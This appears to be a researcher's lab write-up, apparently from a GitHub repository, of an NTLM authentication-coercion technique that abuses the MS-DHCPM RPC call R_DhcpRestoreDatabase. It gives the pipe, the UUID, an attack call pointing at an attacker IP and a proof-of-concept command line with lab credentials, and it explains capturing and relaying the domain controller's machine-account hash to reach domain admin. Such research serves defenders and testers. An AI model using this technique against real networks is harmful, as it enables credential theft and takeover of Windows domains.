 # MS-DHCPM - Remote call to R_DhcpRestoreDatabase (opnum 45)

## Summary

 - **Protocol**: [[MS-DHCPM]: Microsoft Dynamic Host Configuration Protocol (DHCP) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dhcpm/d117857c-1491-46a2-a68e-c844be3627d4)

 - **Protocol UUID**: 6bffd098-a112-3610-9833-46c3f874532d

 - **Protocol version**: 1.0

 - **SMB Named pipe**: `\PIPE\DHCPSERVER`

 - **Function name**: [`R_DhcpRestoreDatabase`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dhcpm/ed387010-a226-4719-964b-c9ee8bc0f302)

 - **Function operation number**: `45`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\DHCPSERVER` and bind to the desired [`MS-DHCPM`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dhcpm/d117857c-1491-46a2-a68e-c844be3627d4) protocol (with uuid `6bffd098-a112-3610-9833-46c3f874532d` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-DHCPM`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dhcpm/d117857c-1491-46a2-a68e-c844be3627d4) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\DHCPSERVER` This pipe is connected to the protocol [[MS-DHCPM]: Microsoft Dynamic Host Configuration Protocol (DHCP) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dhcpm/d117857c-1491-46a2-a68e-c844be3627d4) and allows to call RPC functions of this protocol. We will then call the remote [`R_DhcpRestoreDatabase`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dhcpm/ed387010-a226-4719-964b-c9ee8bc0f302) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
R_DhcpRestoreDatabase('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
DWORD R_DhcpRestoreDatabase(
   [in, unique, string] DHCP_SRV_HANDLE ServerIpAddress,
   [in, string] LPWSTR Path
 );
```

## References

 - Documentation of protocol [MS-DHCPM]: Microsoft Dynamic Host Configuration Protocol (DHCP) Server Management Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dhcpm/d117857c-1491-46a2-a68e-c844be3627d4

 - Documentation of function `R_DhcpRestoreDatabase`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dhcpm/ed387010-a226-4719-964b-c9ee8bc0f302